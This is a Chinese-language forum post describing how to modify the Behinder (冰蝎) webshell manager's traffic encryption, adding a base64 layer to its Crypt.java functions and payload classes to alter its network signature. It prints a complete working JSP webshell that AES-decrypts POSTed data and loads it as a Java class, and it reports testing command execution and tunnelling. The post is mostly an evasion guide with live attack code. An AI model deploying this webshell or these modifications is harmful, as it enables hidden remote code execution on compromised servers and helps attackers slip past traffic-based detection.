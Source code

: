 感觉冰蝎流量魔改的文章比较少，我自己琢磨了一下，感觉简单地做个流量魔改并不复杂，发出来供大家参考。我自己是个Java笨比，有问题的地方欢迎大佬们评论区指正共同学习。

0x00 冰蝎源码
---------

冰蝎源码的获取，可以下载冰蝎，用idea自带的反编译工具去反编译，我这里直接用github搜到的别人整理好的反编译代码了（[https://github.com/x1a0t/Behinder-Source）](https://github.com/x1a0t/Behinder-Source%EF%BC%89)

0x01 Crypt.java的修改
------------------

### （1）加密函数

在Crypt.java中，可以修改Encrypt、EncryptForPhp这类加密函数的逻辑，比如在返回结果数据前，对结果做自定义的加密处理。我这里的例子就是在原有的AES基础上做了个base64编码。  
note：`public static byte[] Encrypt(byte[] bs, String key, String scriptType, int encryptType)`这个函数不用改。  
我看了下，这个函数是在进最后的return前进了其他被改了逻辑的加密函数（比如EncryptForPhp），其他函数改过了，这里就不用动了。我最开始没仔细看代码的时候想着，人家写了个汇总函数在这里改应该挺快捷的，结果发现这里虽然写了个汇总的函数，但是有些时候调用加密还是调用了具体的加密函数（比如：EncryptForPhp），所以这里就不用管这个函数了。  
修改的例子：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20220710203841-3a665d52-004d-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20220710203841-3a665d52-004d-1.png)  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20220710203848-3f1843d8-004d-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20220710203848-3f1843d8-004d-1.png)

### （2）解密函数

修改Crypt.java里的Decrypt函数（我这里是做的base64编解码，只要在这个总的Decrypt函数开头做一次解码就行了，各位大佬们可以根据自己选用的编解码方式，自行修改这些Decrypt函数）：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20220710204208-b60f5558-004d-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20220710204208-b60f5558-004d-1.png)

0x02 payload的修改
---------------

我自己对jsp马做了个简单的跟踪调试，发现解密函数解密的流量，应该是被客户端塞进去的payload里的xxx.class发出来的，这些流量发出来之前会调用payload里xxx.class的Encrypt()函数做个流量加密。所以这里的思路是，把payload里存在Encrypt()函数的xxx.class的Encrypt()函数加密逻辑都修改一下，就能贯通整个加解密通讯流程了。  
具体操作还是以jsp增加base64编码举例子：  
因为演示的是jsp的部分，就去修改net.rebeyond.behinder.payload.java下面的Java代码文件，找到里面的Encrypt()函数（payload里的Java代码，挨个找找改一下，并不是每一个文件都有Encrypt，这里没有就不管），去修改加密逻辑就行了  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20220710204655-612c50b2-004e-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20220710204655-612c50b2-004e-1.png)  
note：`别的语言的payload里的加密函数也叫encrypt(最多有些大小写区别)，但是要修改的话需要用对应的语言去修改（其中，C#的是dll文件，需要额外的姿势，欢迎评论区老哥补充这方面方便的思路）`  
以php为例子，加密函数修改如下：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20220710205003-d10f6fae-004e-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20220710205003-d10f6fae-004e-1.png)

0x03 webshell马子的修改
------------------

以jsp为例，这里就是在原本的base64解码里又套了一层base64解码：

```
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(new String(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))))).newInstance().equals(pageContext);}%>
```

0x04 打包与测试
----------

用maven做package打包，完成后要用的是名字长的那个jar包（Behinder-3.0-beta-11\_t00ls-jar-with-dependencies.jar）  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20220710205545-9d414f66-004f-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20220710205545-9d414f66-004f-1.png)  
本地运行，测试（命令执行、内网穿透等功能正常，不过数据库连接功能拉闸了）：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20220710205614-ae3af2cc-004f-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20220710205614-ae3af2cc-004f-1.png)  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20220710205624-b47b1856-004f-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20220710205624-b47b1856-004f-1.png)

有两个还没解决的东西：  
1.C#部分的dll文件处理（欢迎老哥们在评论区发点儿快捷的处理方法、思路）  
2.数据库连接功能出现了bug（暂时还没去调试，老哥们有知道的欢迎评论区重拳出击）
